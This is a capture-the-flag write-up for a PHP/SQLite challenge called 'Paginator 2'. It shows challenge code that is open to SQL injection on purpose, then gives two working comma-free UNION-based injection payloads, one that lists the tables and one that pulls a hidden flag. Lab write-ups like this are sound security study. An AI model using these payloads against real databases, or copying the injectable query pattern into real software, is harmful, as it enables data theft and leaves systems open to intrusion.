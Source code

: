 ## Paginator 2

We have almost the same code but it has the flag in another table which we dont know about.

```php
<?php
ini_set("error_reporting", 1);
ini_set("display_errors",1);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>

<html>
    <head>
        <title>Paginator v2</title>
    </head>
    <body>
        <h1>Paginator v2</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>

```

This has the same SQL injection as the previous chal but we cant use commas(,) because the do a split `[$min, $max] = explode(",",$_GET['p']);`
So we need to execute a union to get the flag from other table but without comma. This tricky because a union needs to have the same number o columns of the original query. To get the flag we first executed the following query to get the tables that exist: 

```
3 UNION  SELECT * FROM (SELECT name FROM dbname.sqlite_master) UT1 JOIN  (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT2 JOIN (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT3;
```


Then we get the flag with: 
```
3 UNION  SELECT * FROM (SELECT value from flag) UT1 JOIN  (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT2 JOIN (SELECT id FROM pages WHERE content > 'A' AND content < 'U') UT3;
```